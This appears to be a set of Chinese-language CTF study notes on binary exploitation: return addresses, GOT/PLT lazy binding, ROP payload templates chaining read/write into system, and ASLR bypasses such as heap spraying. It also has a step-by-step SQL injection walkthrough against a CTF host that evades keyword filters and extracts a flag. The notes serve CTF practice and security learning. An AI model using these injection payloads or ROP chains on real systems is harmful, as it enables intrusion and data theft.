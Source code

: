 
## 0x01 `__builtin_return_address`
`__builtin_return_address`函数
builtin_return_address函数接收一个参数，可以是0,1,2等。builtin_return_address(0)返回当前函数的返回地址，如果参数增大1，那么就往上走一层获取主调函数的返回地址。


`'A' * N + p32(write_plt) + p32(ret) + p32(1) + p32(address) + p32(4)`
`'B' * 140 + p32(read_plt) + p(ret1) + p32(0) + p32(bss_addr) + p32(8) + p32(system_addr) + p32(ret2) + p32(bss_addr)`

GOT（Global Offset Table，全局偏移表）是Linux ELF文件中用于定位全局变量和函数的一个表。PLT（Procedure Linkage Table，过程链接表）是Linux ELF文件中用于延迟绑定的表，即函数第一次被调用的时候才进行绑定。
假如存在一个bar函数，这个函数在PLT中的条目为bar@plt，在GOT中的条目为bar@got，那么在第一次调用bar函数的时候，首先会跳转到PLT，伪代码如下：
bar@plt:
jmp bar@got
patch bar@got
这里会从PLT跳转到GOT，如果函数从来没有调用过，那么这时候GOT会跳转回PLT并调用patch bar@got，这一行代码的作用是将bar函数真正的地址填充到bar@got，然后跳转到bar函数真正的地址执行代码。当我们下次再调用bar函数的时候，执行路径就是先后跳转到bar@plt、bar@got、bar真正的地址。


//得到显示位3
http://web.phrack.top:32783/^HT2mCpcvOLf/index.php?id=0/*123*/uniunionon/*123*/selselectect/*123*/1,2,3#
//数据库test
http://web.phrack.top:32783/^HT2mCpcvOLf/index.php?id=0/*123*/uniunionon/*123*/selselectect/*123*/1,2,database()#   
//表名content
http://web.phrack.top:32783/^HT2mCpcvOLf/index.php?id=0/*123*/uniunionon/*123*/selselectect/*123*/1,2,group_concat(table_name)/*123*/frfromom/*111*/information_schema.tables/*111*/where/*111*/table_schema=0x74657374#    
//列名id, context, content
http://web.phrack.top:32783/^HT2mCpcvOLf/index.php?id=0/*123*/uniunionon/*123*/selselectect/*123*/1,2,group_concat(column_name)/*123*/frfromom/*111*/information_schema.columns/*111*/where/*111*/table_name=0x636F6E74656E74#  
//拿到flag    1:PCTF{Fin4lly_U_got_i7_C0ngRatulation5}:hi666
http://web.phrack.top:32783/^HT2mCpcvOLf/index.php?id=0/*123*/uniunionon/*123*/selselectect/*123*/1,2,group_concat(id,0x3a,context,0x3a,title,0x3a)/*123*/frfromom/*111*/content#   


context.log_level = 'debug'

支持ASLR的程序在PE头中会设置IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE标识表明其支持ASLR。
常用的绕过ASLR的方法有：
攻击未启用ASLR的模块
堆喷射（HeapSpray）技术,虽然有堆栈随机化，不过HeapSpray技术将ShellCode布局到0x0C0C0C0C（或者其他指定的地址上，通常这个地址要比较大），并不会受堆栈随机化的影响。
覆盖部分返回地址,映像随机化中，虽然模块的加载基地址发生变化，但是各模块的入口点地址的低位字不变，只有高位字进行了随机化处理。